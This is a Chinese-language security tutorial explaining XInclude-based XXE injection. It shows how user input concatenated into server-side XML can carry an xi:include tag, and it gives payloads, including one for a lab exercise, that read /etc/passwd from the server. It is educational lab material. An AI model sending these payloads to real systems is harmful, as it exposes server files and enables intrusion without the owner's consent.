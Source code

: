 # XIclude 动态嵌入

通常情况下，如果你在抓取的 HTTP 数据包中，发现 XML 格式数据，你很有可能进行 XXE 注入检测。但是某些情况下，即使它不携带 XML 格式数据，他也存在 XXE 注入。

### XInclude

XInclude（XML Inclusions）是 W3C 标准，允许将外部资源（文件、URL）动态嵌入 XML 文档。通过`<xi:include>` 标签实现，需声明命名空间 `xmlns:xi="http://www.w3.org/2001/XInclude"`。

##### **关键属性**

- `href`：指定要包含的外部资源路径（如 `file:///etc/passwd`）。
- `parse`：控制解析方式：
  - `parse="text"`：以纯文本形式包含资源，保留原始内容。
  - `parse="xml"`：将资源解析为 XML 并合并到文档中。

### 将 XInclude 标签拼接至 xml 文件

例如如下案例：

正常服务器接收用户 email 参数并嵌入 XML 中：

```
<!-- 用户通过请求包的 post 参数输入数据 -->
emali={user_input}

<!-- 服务器接收到数据后，放到 xml 文件里解析 -->
<user>
  <name>Alice</name>
  <email>{user_input}</email>
</user>
```

攻击者提交数据：

```
email=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

恶意数据被拼接进生成的 XML：

```
<user>
  <name>Alice</name>
  <email>
    <foo xmlns:xi="http://www.w3.org/2001/XInclude">
      <xi:include parse="text" href="file:///etc/passwd"/>
    </foo>
  </email>
</user>
```

![image-20250417194205899](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XXE%20%E6%B3%A8%E5%85%A5/images/image-20250417194205899.png)

从而使得服务器动态获取 /etc/passwd 的文件内容并嵌入 XML 数据中。

![image-20250417194216493](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XXE%20%E6%B3%A8%E5%85%A5/images/image-20250417194216493.png)

### 靶场实验

```
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
      <xi:include parse="text" href="file:///etc/passwd"/>
    </foo>&storeId=1
```

![image-20250416164915408](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XXE%20%E6%B3%A8%E5%85%A5/images/image-20250416164915408.png)